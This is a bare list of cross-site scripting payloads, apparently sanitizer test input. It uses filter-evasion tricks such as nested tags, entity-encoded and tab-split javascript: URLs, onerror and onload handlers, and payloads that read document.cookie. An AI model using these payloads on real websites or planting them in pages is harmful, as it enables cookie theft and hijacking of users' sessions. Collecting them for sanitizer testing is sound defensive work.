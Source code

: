 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<img src=x onerror="eval('alert(document.cookie)')"/>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>

<s\Cr\ipt\>alert(document\.cookie)<\/s\Cr\ipt\>\;\/>
<--<img/src=%20onerror=confirm``>%20--!>
<select><noembed></select><script x='a@b'a>
y='a@b'//a@b%0a\u0061lert(1)</script x>

xss'''><iframe srcdoc='%26it;script>;prompt`
${document.domain}`%26it;/script>'>
<iframe src=java&Tab;sc&Tab;ript:al&Tab;ert()></iframe>

<sVg/onLy=1 onLoaD=confirm(1)//
